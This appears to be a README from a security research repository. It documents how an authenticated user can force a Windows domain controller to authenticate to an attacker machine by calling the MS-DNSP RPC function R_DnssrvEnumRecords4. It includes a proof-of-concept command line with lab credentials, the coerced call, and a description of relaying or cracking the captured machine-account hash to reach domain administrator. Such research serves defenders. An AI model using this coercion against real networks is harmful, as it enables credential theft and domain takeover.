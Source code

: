 # MS-DNSP - Remote call to R_DnssrvEnumRecords4 (opnum 18)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvEnumRecords4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5f448507-49a3-4e9e-866e-54ff3eb7ea49)

+ **Function operation number**: `18`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5f448507-49a3-4e9e-866e-54ff3eb7ea49) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords4(
      [in]                                  handle_t      hBindingHandle,
      [in]                                  DWORD         dwClientVersion,
      [in]                                  DWORD         dwSettingFlags,
      [in, unique, string]                  LPCWSTR       pwszServerName,
      [in, unique, string]                  LPCWSTR       pwszVirtualizationInstanceID,
      [in, unique, string]                  LPCSTR        pszZone,
      [in, unique, string]                  LPCWSTR       pwszZoneScope,
      [in, unique, string]                  LPCSTR        pszNodeName,
      [in, unique, string]                  LPCSTR        pszStartChild,
      [in]                                  WORD          wRecordType,
      [in]                                  DWORD         fSelectFlag,
      [in, unique, string]                  LPCSTR        pszFilterStart,
      [in, unique, string]                  LPCSTR        pszFilterStop,
      [out]                                 PDWORD        pdwBufferLength,
      [out, size_is(, *pdwBufferLength)]    PBYTE *        ppBuffer
    );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvEnumRecords4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5f448507-49a3-4e9e-866e-54ff3eb7ea49